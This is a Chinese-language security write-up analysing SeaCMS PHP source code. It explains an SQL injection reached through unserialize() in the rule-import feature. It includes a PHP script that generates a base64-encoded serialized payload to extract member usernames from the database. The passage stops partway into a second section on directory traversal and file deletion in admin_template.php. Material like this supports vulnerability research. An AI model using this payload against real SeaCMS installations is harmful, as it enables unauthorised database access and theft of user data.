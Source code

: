 `$importrule = unserialize(base64_decode($importrule))`对`$importrule`进行base64解码后进行反序列化(全局搜索了一下,除了php原生类之外好像没有别的利用点)

反序列化后要满足这个条件`if(!is_array($importrule) || !is_array($importrule['config']) || !is_array($importrule['type']))`

```php
$data = $importrule['config'];
unset($data['cid']);
$data['cname'].="(导入时间:".date("Y-m-d H:i:s").")";
$data['cotype'] = '1';
$sql = si("sea_co_config",$data,1);
```

对反序列化解析出的`$importrule['config']`进行一定的处理,处理后的`$data`被传入到`si`中,显然`count($data)`大于1,但要注意只有当`$i%2==0`时数据才会被拼接到sql语句中,因此在构造序列化数组时要注意添加垃圾数据进行填充

```php
foreach($data as $key=>$value)
{
	if($i!=0&&$i%2==0)
	{
        $t1[] = $key;
        $t2[] = $needQs?qs($value):"'$value'";
	}
	$i+=1;
}
$sql =  "INSERT INTO `$table` (`".implode("`,`",$t1)."`) VALUES(".implode(",",$t2).")";
```

同时要注意`sea_co_config`的表属性,其中`cname`的长度限制为50

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203081048580.png)

```php
<?php
$importrule = array();
$importrule['config'] = array();
$importrule['config']['abc']='asdf';
$importrule['config']['123']='asdf';
$importrule['config']['cname`,`getlistnum`,`getconnum`,`cotype`) values ((select group_concat(username) from seacms.sea_member),10,100,1)#']='asdf';
$importrule['type'] = array();
var_dump(serialize($importrule));
var_dump("BASE64:".base64_encode(serialize($importrule)).":END");
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203081053345.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203081054054.png)

## admin/admin_template.php存在目录穿越/任意文件删除漏洞

```php
<?php
require_once(dirname(__FILE__)."/config.php");
if(empty($action))
{
	$action = '';
}

$dirTemplate="../templets";

...

else
{
```